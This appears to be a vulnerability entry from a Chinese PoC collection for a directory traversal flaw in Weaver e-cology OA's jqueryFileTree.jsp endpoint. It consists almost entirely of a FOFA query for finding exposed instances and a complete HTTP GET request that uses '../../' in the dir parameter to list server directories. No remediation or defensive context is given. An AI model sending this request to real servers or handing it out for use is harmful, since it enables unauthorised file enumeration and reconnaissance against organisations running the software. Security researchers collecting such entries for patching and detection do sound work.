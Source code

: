 ## 泛微OA-E-Cology-JqueryFileTree.jsp目录遍历漏洞



## fofa

```
 app="泛微-OA(e-cology)"
```



## poc

```
GET /hrm/hrm_e9/orgChart/js/jquery/plugins/jqueryFileTree/connectors/jqueryFileTree.jsp?dir=/page/resource/userfile/../../ HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![image-20240521201309707](../../assets/202405212013765.png)